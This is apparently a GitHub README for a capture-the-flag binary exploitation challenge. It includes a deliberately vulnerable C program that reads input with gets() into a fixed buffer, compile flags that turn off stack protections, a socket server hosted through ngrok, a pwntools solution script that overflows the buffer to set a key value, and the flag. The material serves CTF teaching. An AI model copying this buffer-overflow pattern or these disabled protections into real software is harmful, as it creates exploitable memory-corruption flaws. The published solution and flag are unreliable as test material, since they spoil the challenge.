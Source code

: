 # b_flow
---
### Category : <i>Binary Exploitation</i>
---

#### Requirements
- Python
- SocketServer module
- pwntools library
- Ngrok

Download all the requirements
   ```bash
   python -m pip install requirements.txt
   ```

#### Description
In this challenge a binary file "fl0w" will be provided to the user with a netcat command,
```bash
  nc <IP router provided> 6667 # ncat for windows
   ```
The binary file is created from the C program "chal2.c" which contains a vulnerability related to "buffer overflow"<p>
```c
#include<stdio.h>
#include<string.h>
#include<stdlib.h>

void ret2win(){
        int key = 0;
        char buffer[32];
        printf("  _____   _                 _     _ \n");
        printf(" / ____| | |         /\\    | |   | |\n");
        printf("| (___   | |        /  \\    \\ \\_/ / \n");
        printf(" \\___ \\  | |       / __ \\    \\   / \n");
        printf(" ____) | | |____  / ____ \\    | |  \n");
        printf("|_____/  |______|/_/    \\_\\   |_|  \n");
        printf("You need to bypass me to get the flag: \n");
        printf(">");
        fflush(stdout);
        gets(buffer);
        if(key==0xf007ba11){
                printf("Redacted\n");
                printf("%04x\n",key);
                fflush(stdout);
        }
        else{
                printf("F4k3_k3y\n");
                printf("%04x\n",key);
                fflush(stdout);
        }
}

int main(int argc , char* argv[]){
        ret2win();
        return 0;
}  
```
</p>

#### Create the binary file from the C code
---

```bash
gcc filename.c -o output -fno-stack-protector -z execstack -no-pie -m32
```

It uses "gets" function which can be exploited to get sensitive information

```bash
chal2.c: In function ‘ret2win’:
chal2.c:17:9: warning: implicit declaration of function ‘gets’; did you mean ‘fgets’? [-Wimplicit-function-declaration]
   17 |         gets(buffer);
      |         ^~~~
      |         fgets
/usr/bin/ld: /tmp/ccWKPnr3.o: in function `ret2win':
chal2.c:(.text+0xc0): warning: the `gets' function is dangerous and should not be used.
```


#### Run the challenge in your local area network
---

To run the code we need to create a socket server in our localhost on any free port (here I used 6667)

```python
#!/usr/bin/python

import socketserver # to create a socket server
import time
import threading
import pwn # to run sub process

class Service(socketserver.BaseRequestHandler):
        def handle(self):
                # this is where we will handle the connection , do what we want to do once someone connects 
                print("Someone Connected")
                io = pwn.process("./b0flow")      #note that on server side we are running the original file where as on client side we give flag redacted file
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())
                entered = self.recieve()
                io.sendline(entered)
                self.send(io.recvline().decode())
                self.send(io.recvline().decode())

        def send(self, string , newline = True):
                if newline: string = string 
                self.request.sendall(bytes(string,'utf-8'))     # this request object is internal to the base request handler and used to send data to the client 

        def recieve(self, prompt = ">"):
                self.send(prompt, newline= False)
                return self.request.recv(4096).strip()         # to recieve data from the client 

class TheadedService(socketserver.ThreadingMixIn , socketserver.TCPServer , socketserver.DatagramRequestHandler):
        #this class doesn't need to anything but we need it to exist to make the threaded service and serve it up
        pass


def main():
        port = 6667                     # port to run the challenge
        host = "127.0.0.1"              # visible to LAN

        service = Service

        # server object , using host and port , hosting our service
        server = TheadedService((host,port),service)

        # make the port reusable
        server.allow_reuse_address = True

        # thread the service ! 
        server_thread = threading.Thread(target = server.serve_forever)
        server_thread.start()

        print("Server started on port", port)

        # wait and do nothing
        while True : time.sleep(60)

if __name__ == "__main__":
        main() 
```

Check your IP address : {IP}
   ```bash
   ipconfig # for Windows
   ```
   ```bash
   ifconfig # for Linux
   ```
Run the python program mentioned above ("netc_file_1.py")

Connect it on the client machine
   ```bash
   nc {TCP channel} 6667
   ```

#### Forward the port using Ngrok to run on a public network
---
- Go to https://Ngrok.com and [download](https://ngrok.com/download) ngrok , also [sign up](https://dashboard.ngrok.com/signup) on the website
- go to your dashboard and get your [auth-token](https://dashboard.ngrok.com/get-started/your-authtoken)
- set your environment
  ```bash
  ngrok config add-authtoken <your auth-token> 
  ```
- to forward this code on local tcp port
  ```bash
  ngrok tcp 6667 # 6667 is the port in which I host my service (basically it runs my localhost service in a public channel)

  ```
- there you will get  a tcp channel link like in my case <b><i>tcp://0.tcp.ap.ngrok.io:17426</b></i>
```bash
ngrok                                                                                              (Ctrl+C to quit)
                                                                                                                   
Build better APIs with ngrok. Early access: ngrok.com/early-access                                                 
                                                                                                                   
Session Status                online                                                                               
Account                       PANKAJ BARMAN (Plan: Free)                                                          
Version                       3.5.0                                                                                
Region                        Asia Pacific (ap)                                                                    
Latency                       -                                                                                    
Web Interface                 http://127.0.0.1:4040                                                                
Forwarding                    tcp://0.tcp.ap.ngrok.io:17426 -> localhost:6667                                      
                                                                                                                   
Connections                   ttl     opn     rt1     rt5     p50     p90                                          
                              0       0       0.00    0.00    0.00    0.00 
```
- run this on client side
  ```bash
  nc 0.tcp.ap.ngrok.io 17426
  ```
  That's it
  
```bash
    _____   _                 _     _ 
   / ____| | |         /\    | |   | |
  | (___   | |        /  \    \ \_/ / 
   \___ \  | |       / __ \    \   / 
   ____) | | |____  / ____ \    | |  
  |_____/  |______|/_/    \_\   |_|  
  You need to bypass me to get the flag: 
  >
```

#### Solution
To solve the challenge the participants need to write the code "Solution.py" or need to input bytes data of ( 32 * "A" + "\x11\xba\x07\xf0" ) 

```python
#!/usr/bin/python3
from pwn import *

io= process('./b0flow')
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode(),end="")
print(io.recvline().decode())
io.sendlineafter(b'>',b'A'*32 + p32(0xf007ba11))

print(io.recvall().decode())
```
#### Flag
SLAY{Buff3r_bu573r_g33k}
